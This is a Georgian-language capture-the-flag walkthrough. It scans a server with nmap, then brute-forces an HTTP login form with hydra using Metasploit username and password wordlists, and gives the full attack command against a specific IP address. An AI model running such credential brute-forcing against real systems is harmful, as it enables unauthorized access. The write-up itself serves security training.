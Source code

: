 ## მოცემულია GNU/Linux სერვერი. თქვენი მიზანია მოიპოვოთ წვდომა სერვერზე და მოიპოვოთ ე.წ. "flag"-ი.

1. nmap-ის გამოყენებით ვნახოთ რომელი პორტებია სერვერზე გახსნილი:
  ```bash
  nmap 185.212.254.51
  ```
  Output:
  ```bash
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 09:35 EDT
  Nmap scan report for 185.212.254.51
  Host is up (0.021s latency).
  Not shown: 999 closed ports
  PORT     STATE SERVICE
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
  ```
  როგორც ვხედავთ 8080 პორტი გახსნილია და http-proxy არის გაშვებული

2. გავხსნათ ბრაუზერი და შევიდეთ ამ IP:PORT-ზე. URL-ში ჩავწეროთ “185.212.254.51:8080“.
  შესვლისას დაგვხვდება ასეთი ფეიჯი  
  ![index.png](.images/index.png)

3. ფეიჯის inspect-მა საინტერესო არაფერი გვანახა, ამიტომ შევეცადოთ bruteforce-ით გადავუაროთ და შევეცადოთ გავტეხოთ user/pass.

  ამისთვის გამოვიყენებთ hydra-ს.

  ```bash
  hydra -L <USER_FILE> -P <PASS_FILE> <HOST> -s <PORT> http-post-form "<PATH>:<BODY>:<ERR_MSG>" -V 
  
  Flags:
    -L Usernames ფაილის მითითება
    -P Passwords ფაილის მითითება
    -s პორტის მითითება
    -V (Verbos mode) გამოიტანს ყველა მცდელობას

  Variables:
    <USER_FILE> - ფაილი, საიდანაც წაიკIთხავს იუზერნეიმების სიას
    <PASS_FILE> - ფაილი, საიდანაც წაიკIთხავს პაროლების სიას
    <HOST> - IP მისამართი, რომელიც უნდა გავტეხოთ
    <PORT> - პორტი რომელზეც არის კონკრეტული სერვისი გაშვებული
    <PATH> - საიტზე იმ ფაილის მისამართი, სადაც ხდება აუთენთიფიკაცია
    <BODY> - პარამეტრები, რომლებიც გადაეცემა დალოგინებისას
    <ERR_MSG> - წარუმატებელი დალოგინებისას გამოტანილი მესიჯი
  ```

  * **USER_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_users.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_users.txt)
  * **PASS_FILE** - გამოვიყენოთ metasploit-ის მიერ წინასწარ შედგენილი wordlist იუზერნეიმებისთვი, მოთავსებულია utils/metasploit ფოლდერში სახელად `unix_passwords.txt` (Kali-ის მომხმარებლებმა შეგიძლია მიუთითოთ შემდეგი ფაილი: /usr/share/wordlists/metasploit/unix_passwords.txt) 
  * **HOST** - IP მისამართი რომელზეც სერვერია გაშვებული, ჩემს შემთხვევაში `185.212.254.51`
  * **PORT** - როგორც პირველ პუნქტში ვნახეთ სერვერი გაშვებულია `8080` პორტზე
  * **PATH** - დასალოგინებლად უნდა შევიდეთ შემდეგ მისამართზე 185.212.254.52:8080/login ანუ ფაილის მისამართია `/login`
  * **BODY** - ამ პარამეტრების ნახვა შეგვიძლია network ტაბის გამოყენებით.
    * გავხსნათ Inspect ბრაუზერში და გადავიდეთ Network ტაბზე. 
    * ჩავწეროთ რენდომ იუზერნეიმ/პაროლი მაგალითად: test_user/test_pass
    * Network-ში ჩამონათვალში მოვნიშნოთ ის სტრიქონი, სადაც ფაილი არის login
    * ვნახოთ გაგზავნილი payload:
      * Chrome: Headers -> Form Data -> view Source
      * Firefox: Headers -> Edit and Resend -> Request Body
      * სხვა ბრაუზერებისთვის სხვანაირად იქნება და თქვენ იცით არ შერცხვეთ.
      
      შედეგი: '''username=test_user&password=test_pass&login-submit=Log+In'''
      Hydra-ს უნდა მივუთითოთ თუ სად უნდა ჩაწეროს username/password, ამისთვის იყენებენ ორ keywords: ^USER^ და ^PASS^.
      ჩვენს შემთხვაში test_user-ის მაგივრად უნდა ჩავწეროთ ^USER^, ხოლო test_pass-ის მაგივრად ^PASS^.
      საბოლოოდ ვიღებთ: `"username=^USER^&password=^PASS^&login-submit=LogIn"`
    ![body.png](.images/body.png)

  * **ERR_MSG** - დავლოგინდეთ რენდომ იუზერნეიმითა და პაროლით. ფეიჯზე გაჩნდება შემდეგი მესიჯი `Invalid Username/Password`

  ახლა კი ავაწყოთ მთლიანი კომანდი:
  ```bash
    hydra -L unix_users.txt \
          -P unix_passwords.txt \
          185.212.254.52 \
          -s 8080 \
          http-post-form "/login:username=^USER^&password=^PASS^&login-submit=LogIn:Invalid Username/Password" \
          -V
  ```